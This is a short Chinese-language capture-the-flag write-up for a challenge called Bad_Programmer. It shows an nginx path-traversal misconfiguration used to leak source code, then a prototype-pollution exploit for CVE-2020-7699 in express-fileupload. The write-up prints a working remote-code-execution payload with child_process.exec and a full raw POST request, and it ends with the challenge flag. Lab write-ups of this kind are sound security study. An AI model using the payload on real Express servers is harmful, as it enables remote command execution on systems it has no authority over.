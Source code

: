 # Bad_Programmer

> nginx配置不当和CVE-2020-7699

## 分析

> 源码无发现,根据请求发现网站使用了node.js的express框架,扫目录,发现存在/static/目录,访问.根据经验,这种是nginx配置文件设置可查看目录,并且网址映射可能出现偏差,尝试/static…/访问到了网站源码源码.

> 查看许多文件后,发现package.json文件里的内容提及了服务器所在目录是/app,并且express-fileupload版本为1.1.7-alpha.4.而刚好此版本存在CVE-2020-7699,原型链污染漏洞.这个漏洞大概就是向ejs文件提交post请求,用bp抓包,并将提交的字段名改为__proto__.outputFunctionName,对应的字段值改为x;console.log(1);process.mainModule.require('child_process').exec('ls');x,便可以控制服务器的shell

> 根据经验,flag一般是在根目录下,将其复制到可以通过网站来访问的目录下

```
x;console.log(1);process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x
```


## payload

```
POST /4_pATh_y0u_CaNN07_Gu3ss HTTP/1.1
Host: 61.147.171.105:60548
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 250
Content-Type: multipart/form-data; boundary=622ef228150df44b3e09060c6fb6282b

--622ef228150df44b3e09060c6fb6282b
Content-Disposition: form-data; 
name="proto.outputFunctionName"

x;console.log(1);process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x
--622ef228150df44b3e09060c6fb6282b--
```

## flag

> cyberpeace{b070fad4168f1956ba722332a9b7c1f5}

## 参考

> https://blog.csdn.net/gental_z/article/details/107937110